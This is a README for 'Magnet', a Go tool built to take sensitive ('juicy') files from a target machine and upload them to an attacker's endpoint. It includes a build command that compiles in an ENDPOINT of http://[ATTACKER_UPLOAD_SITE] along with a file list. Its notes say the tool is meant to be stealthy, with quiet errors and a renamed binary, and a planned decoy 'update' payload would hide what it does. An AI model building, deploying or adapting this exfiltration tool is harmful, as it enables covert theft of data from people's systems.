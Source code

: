 # Magnet

<div align=center>
  <code><pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the jobs is done at compilation time</pre></code>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where your will upload juicy files
* ***The Juicy files***, list of files you want to grab. (File are separated by a comma `,`)
* ***The target os***, to to fit the target (between: `windows`, `darwin`, `linux`

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files.txt)
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X main.FileList=$FILES -X main.Endpoint=$ENDPOINT" magnet.go
```

Then on target machine:

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

Include a fake payload that will also be run to fake an attacking scenario (example update, etc)

